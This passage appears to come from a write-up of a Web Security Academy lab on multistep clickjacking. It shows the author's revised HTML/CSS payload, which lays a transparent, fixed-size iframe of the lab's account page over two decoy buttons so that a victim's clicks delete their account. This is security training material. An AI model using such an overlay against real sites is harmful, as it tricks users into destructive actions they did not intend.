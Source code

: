 
Here, clicking the “Click me next” button the user would be deleted:



![img](images/8%20-%20Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small iframe size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
```